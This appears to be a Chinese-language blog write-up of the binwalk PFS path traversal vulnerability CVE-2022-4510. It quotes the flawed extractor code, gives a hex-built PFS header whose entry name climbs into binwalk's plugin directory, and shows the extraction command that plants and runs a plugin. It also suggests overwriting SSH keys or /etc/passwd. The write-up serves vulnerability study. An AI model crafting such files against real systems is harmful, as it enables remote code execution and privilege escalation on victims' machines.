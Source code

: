 ﻿# 简介
根据cve官方描述，从版本2.1.2到 2.3.3的binwalk中发现了一个路径遍历漏洞。此漏洞允许远程攻击者在安装受影响的binwalk机子上执行任意代码

# 什么是PFS文件
PFS文件是由PhotoFiltre Studio（图像修饰程序）创建的选择文件。 它包含图像编辑器的多边形选择工具使用的坐标，以便在给定坐标之间绘制线。 PFS文件以纯文本格式存储。

PFS文件格式
```
https://lekensteyn.nl/files/pfs/pfs.txt
```
# 分析源代码
一个PFS提取器插件在2017年合并到了binwalk中，做了一下修改
```
     def extractor(self, fname):
         fname = os.path.abspath(fname)
         out_dir = binwalk.core.common.unique_file_name(os.path.join(os.path.dirname(fname), "pfs-root"))

         try:
             with PFS(fname) as fs:  #读取pfs文件数据
               data = open(fname, 'rb')
               data = binwalk.core.common.BlockFile(fname, 'rb')
               data.seek(fs.get_end_of_meta_data())
               for entry in fs.entries():
                   outfile_path = os.path.join(out_dir, entry.fname)
                   if not outfile_path.startswith(out_dir): 
                        binwalk.core.common.warning("Unpfs extractor detected directory traversal attempt for file: '%s'. Refusing to extract." % outfile_path)
                    else:
                        self._create_dir_from_fname(outfile_path)
                        outfile = binwalk.core.common.BlockFile(outfile_path, 'wb')
                        outfile.write(data.read(entry.fsize))
                        outfile.close()
                 data.close()
         except KeyboardInterrupt as e:
             raise e
```
问题出现在os.path.join函数上，因为第11行的代码没有完全进行路径解析，所以第12行的条件就永远不会为真

![image.png](https://img-blog.csdnimg.cn/ad49dba936a847189abd044da3a7b2f9.png)

通过制作一个路径遍历的PFS文件，我们可以强制binwalk在目录之外写入文件



# POC
用户可以使用binwalk的 API 定义自己的插件，只需要把插件放在$HOME/.config/binwalk/plugins/目录下，之后运行binwalk时就会调用插件

恶意代码：
```
import binwalk.core.plugin

class MaliciousExtractor(binwalk.core.plugin.Plugin):
    def init(self):
        print("baimao")
```
保存后用winhex打开文件

![image.png](https://img-blog.csdnimg.cn/45627e03e1dc45d58da9ad2902bf69ef.png)

直接粘贴以下十六进制数据

```
5046 532f 302e 3900 0000 0000 0000 0100
2e2e 2f2e 2e2f 2e2e 2f2e 636f 6e66 6967
2f62 696e 7761 6c6b 2f70 6c75 6769 6e73
2f6d 616c 7761 6c6b 2e70 7900 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
0000 0000 0000 0000 0000 0000 0000 0000
3412 0000 a000 0000 c100 0000
```


![image.png](https://img-blog.csdnimg.cn/c3790ccbe4a44a1e9e1f2eaa66a40d2b.png)


将.py保存为.pfs文件，然后添加到压缩包里


![image.png](https://img-blog.csdnimg.cn/5a11136800e44ee087845eac778e202d.png)


当从用户的主目录中用binwalk提取文件时，会在.config/binwalk/plugins加入一个插件，这个恶意插件随后会被 binwalk 加载和执行，从而导致 RCE

```
cd ~
binwalk -M -e exp.zip
```
![image.png](https://img-blog.csdnimg.cn/3c08525f31bd40a794946df5bdaacb5d.png)

成功执行代码

# 总结
今年1月31号才披露细节的cve，学习了一下，除了覆盖./.config/binwalk/plugins/malwalk.py文件，我们还可以覆盖id.rsa或者/etc/passwd文件来直接提权

参考文档：
```
https://nvd.nist.gov/vuln/detail/CVE-2022-4510
https://onekey.com/blog/security-advisory-remote-command-execution-in-binwalk
```

